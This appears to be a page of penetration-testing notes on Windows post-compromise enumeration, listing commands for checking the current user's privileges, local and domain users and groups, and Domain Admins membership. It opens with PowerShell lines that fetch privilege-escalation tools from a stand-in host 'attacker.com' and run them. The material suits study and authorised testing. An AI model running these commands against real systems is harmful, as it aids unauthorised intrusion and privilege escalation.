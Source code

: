 ```
PS > IWR -uri http://attacker.com/winPEASany.exe -outfile winPEASany.exe; .\winPEASany.exe | tee winpeas.txt
PS > IWR -uri http://attacker.com/windows-privesc-check2.exe -outfile windows-privesc-check2.exe; .\windows-privesc-check2.exe -h
```

## Whoami
  *  Identify the newly owned user
      *  Includes group memberships and specific privileges  
      *  Watch for [privileges of interest](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens): `SeImpersonatePrivilege`, `SeBackupPrivilege/SeRestorePrivilege`, etc.
  *  Custom PS function `Find-ReadablePrivileges` gathers privileges held by process tokens

```
whoami
net user bob
net user bob /domain
whoami /all  
```

```
PS > Find-ReadablePrivileges
PS > Find-ReadablePrivileges -ExcludeNames lsass
```

## Users, groups, hosts, and sessions
  *  Identify target users, groups, and hosts
      *  Watch for groups of interest `Backup Operators`, `Domain Administrators`, etc.
      *  Search readable/writable files in `C:\Users` home directories
  *  [`net`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems) command and `PowerView.ps1` cmdlets for enumerating users/groups
      *  `net` is old and doesn't handle nested groups well
      *  Pipe to the [`select`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-object?view=powershell-7.4) cmdlet to avoid massive amounts of output
  *  Find domain hosts and logon sessions with `PsLoggedon.exe` and `PowerView.ps1` cmdlets

// Local users and groups
```
dir C:\Users
net user
net user bob
net localgroup
```

// Domain users and groups
```
net user /domain
net user bob /domain
net group /domain
net group "Domain Admins" /domain
PS > Get-NetUser | select samaccountname,lastlogon,logoncount,serviceprincipalname
PS > Get-NetGroup | select samaccountname
PS > Get-NetGroup "Domain Admins" | select-object -ExpandProperty member
```
